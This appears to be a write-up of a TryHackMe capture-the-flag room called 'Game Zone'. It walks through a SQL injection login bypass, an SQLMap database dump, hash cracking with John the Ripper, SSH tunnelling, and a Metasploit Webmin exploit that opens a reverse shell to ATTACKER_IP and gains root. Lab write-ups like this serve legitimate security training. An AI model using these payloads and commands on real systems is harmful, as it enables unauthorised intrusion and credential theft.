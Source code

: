 # Game Zone
* Exploit SQLi manually and using SQLMap, crack users hashed password, us SSH tunnelling to reveal a hidden service, and use Metasploit payloads to gain root privileges.

## Obtain access via SQLi
* Taget host uses `SELECT * FROM users WHERE username = :username AND password := password` SQL query within login form.
* Manipulate query to login without legitimate credentials.
  * Username = ' or 1=1 -- -
  * Password = blank
* Changes SQL query to `SELECT * FROM users WHERE username =' or 1=1 -- - AND password := password`.
  * "1=1" = true.
  * "-- -" comments out remainder of query.
## Use SQLMap
* SQLMap is popular OSS for automatic SQL injection and database takeover tool.
* Pre-installed on Kali.
* Can be installed from [here](https://github.com/sqlmapproject/sqlmap).
### Use SQLMap to dump entire database
1. Intercept request to game review search feature using BurpSuite.
2. Save request into text file.
```
POST /portal.php HTTP/1.1
Host: 10.10.72.152
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.72.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.72.152/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=9h551ujsnetbpkpeam2fsr2ki2
Connection: close

searchitem=test
```
* Pass request into SQLMap to use authenticated user session.
```
sqlmap -r request.txt --dbms=mysql --dump
```
  * `-r` uses intercepted request.
  * `--dbms` tells SQLMap the type of DBMS.
  * `--dump` attempts to output entire database.

## Crack Password with JohnTheRipper (JTR)
* JTR is fast OSS password cracker.
* Preinstalled on Kali.
* Takes wordlist, hashes it with specified algorithm, then compares it to hashed password.
* Hashes cannot be reversed.
* Can only be broken by hash comparison.
#### Use JTR to crack hash gained above
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```
  * `hash.txt` contains list of hashes to crack.
  * `--wordlist` is list to use to find dehashed value.
  * `--format` is hashing algorithm to use.
## Expose Services with Reverse SSH Tunnels
* Reverse SSH port forwarding specifies that given port on remote host should be forwarded to local host and port.
![cYZsC8p](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/46543e83-ed0e-421c-a78c-4e88f5a18315)
* `-L` is local tunnel.
  * Attacker <- target host.
  * Can forward traffic to another host and view it if site is blocked.
    * E.g. imgur blocked at work.
    * Browse to "localhost:9000" to load imgur traffic using remote server.
```
ssh -L 9000:imgur.com:80 user@example.com
``` 
* `-R` is remote tunnel.
  * Attacker -> target host.
  * Attacker forwards traffic to target host for others to view.
#### Use ss tool to investigate sockets running on host
```
ss -tulpn
```

| Argument | Description
| --- | ---
| `-t` | Display TCP sockets.
| `-u` | Display UDP sockets.
| `-l` | Display only listening sockets.
| `-p` | Show process using the socket.
| `-n` | Do not resolve service names.

* Service running on port 10000 blocked on attack host via firewall rule from outside.
* Use SSH tunnel on attack host to expose port via target host.
```
ssl -L 10000:localhost:10000 agent47@TARGET_IP
```
* Browse to http://localhost:10000 on attack host to access newly-exposed webserver.
## Privilege Escalation with Metasploit
* Use CMS dashboard version (webmin 1.5.80) to find Metasploit payload to execute against target host.
* [Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/21851) found on Exploit-db.
```
msfconsole
search webmin type:exploit
use exploit/unix/webapp/webmin_show_cgi_exec
set password videogamer124
set rhosts ATTACKER_IP
set username agent47
set ssl no
show payloads
set payload payload/cmd/unix/reverse
set lhost ATTACKER_IP
exploit
```
  * Set RHOSTS to Attack Host due to SSH tunnel created earlier.
  * Set SSL to be false as the SSL tunnel is not running over HTTPS.
```
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo cClA4EYV0eVm9IvA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "cClA4EYV0eVm9IvA\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (10.10.174.232:4444 -> 10.10.72.152:53206) at 2024-02-29 17:40:57 +0000
[*] Session 2 created in the background.
```
```
sessions 1
[*] Starting interaction with 1...

whoami
root
```
* Stabilise shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
* Find root flag.
```
cd /
find / -name "root.*" -user root 2>/dev/null
```
